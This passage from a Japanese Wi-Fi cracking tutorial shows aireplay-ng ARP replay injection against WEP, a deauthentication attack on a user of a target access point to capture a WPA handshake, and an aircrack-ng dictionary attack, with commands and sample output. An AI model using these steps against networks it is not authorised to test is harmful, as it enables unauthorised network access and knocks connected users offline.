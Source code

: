 　最後にInteractive packet replayで、自分で作ったARPリクエストを元にパケ
ットを発生させます。「aireplay\-ng \-2 \-r <packetforge\-ngで作ったファイル名
> <使用するNIC>」と入力してください。実行後、airodump\-ngの\#Dataが油断なく
容赦なくどんどん増えていけば成功です。

\-\-\-\-\-
\# aireplay\-ng \-2 \-r aprr ath1

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

             BSSID \= 00:11:22:33:44:55
         Dest. MAC \= AA:AA:AA:AA:AA:AA
        Source MAC \= BB:BB:BB:BB:BB:BB

        0x0000:  0841 de00 0014 6c7e 4080 000f b534 decf  .A....l\~@.......
        0x0010:  ffff ffff ffff 8045 d16a c800 6f4f ddef  ......@E.j..oO..
        0x0020:  b488 ad7c 9f2a 64f6 ab04 d363 0efe 4162  ...|.*d....c..Ab
        0x0030:  8ad9 2f74 16bb abcf 232e 97ee 5e45 754d  ../t....\#...^EuM
        0x0040:  23e0 883e                                \#..>

Use this packet ? y（ここで[y]キーを押す）

Saving chosen packet in replay_src\-1234\-567890.cap
You should also start airodump\-ng to capture replies.
 
Sent 512 packets...
\-\-\-\-\-

　あとは解読だけですが、方法は前者と変わらないため省略しますのであしから
ず。

●WPAキーの解読

　ターゲットAPのパケットキャプチャまではWEPと同じなので、解読に必要なハン
ドシェイクの手に入れ方からいきたいと思います。
　まずは「aireplay\-ng \-0 1 \-a <ターゲットAPのBSSID> \-c <ターゲットAPに接
続しているユーザーのMACアドレス> <使用するNIC>」と入力してDeauthenticati
onを実行します。

\-\-\-\-\-
\# aireplay\-ng \-0 1 \-a 00:11:22:33:44:55 \-c XX:XX:XX:XX:XX:XX ath1
13:25:40 Sending DeAuth to station   \-\- STMAC: [XX:XX:XX:XX:XX:XX]
\-\-\-\-\-

　すると、airodump\-ngの右上らへんに「WPA handshake: FF:FF:FF:FF:FF:FF」と
いうのが出てきますので、それを確認したらairodump\-ngを[ctrl]+[c]で終了させ
ます。

　そうしたらもうあとは解読あるのみです。
　WPAの場合は辞書アタックしかできませんので「aircrack\-ng \-w <辞書ファイル
名> <キャプチャファイル名>」と実行します。この際使用する辞書ファイルに、
8〜63文字の半角英数字の組み合わせ全部が書いてあるもの（サイズがとんでもな
い大きさになること請け合いですが）を指定することで必ず解読するコトができ
るハズです。コレ正論よね。

\-\-\-\-\-
\# aircrack\-ng \-w /tmp/dic /tmp/wpa\-01.cap
以下略
\-\-\-\-\-
